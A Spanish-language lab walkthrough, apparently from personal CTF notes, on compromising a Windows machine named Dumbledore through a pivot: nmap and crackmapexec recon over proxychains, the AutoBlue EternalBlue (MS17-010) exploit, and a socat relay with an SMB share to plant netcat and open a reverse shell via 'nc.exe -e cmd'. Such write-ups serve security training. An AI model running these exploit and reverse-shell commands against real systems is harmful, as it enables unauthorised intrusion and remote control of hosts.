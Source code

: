 ```yaml
---
title: "4. Dumbledore"
description: "4. Dumbledore"
pubDate: 2025-05-20
---
```


[2. Nagini](2.%20Nagini.md) #win

 > [!NOTE]
 > La fase de Pivoting y buscar host ya está hecha con Fawkes al estar en la misma subred

# Fase de reconocimiento

Nos encontramos ante un Windows.

## Buscar puertos

````
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip4> 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240423184902.png)

## Miramos por SMB ante que nos encontramos

````
proxychains crackmapexec smb <ip4> 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240423185017.png)

# Fase de ataque

## EternalBlue

Como vemos que tiene SMBv1 activo.
Podemos usar tanto Metaexploit como Autoblue.
https://github.com/3ndG4me/AutoBlue-MS17-010

1. Comprobamos que hay pipes expuestos

````
proxychains python3 eternal_checker.py <ip4>
````

2. Lanzamos el exploit

````
proxychains python2.7 zzz_exploit.py <ip4>
````

\[+\] ==pwned!==

## Conseguimos una shell completa

1. Descargamos netcat https://eternallybored.org/misc/netcat/
1. Redirigimos con socat el puerto 445 en Nagini y Aragog

````
./socat TCP-LISTEN:445, fork TCP:<ip1>:445
````

3. Abrimos un server smb en el equipo atacante

````
smbserver.py smbFolder $(pwd) -smb2support
````

4. Copiamos a través de archivos compartidos el netcat

````
copy \\<ip2>\smbFolder\nc64.exe C:\Windowss\Temp\nc.exe
````

5. Nos ponemos en escucha por el puerto 445

````
rlwrap nc -nlvp 445
````

6. Ejecutamos el netcat

````
C:\Windows\Temp\nc.exe -e cmd <ip2> 445
````
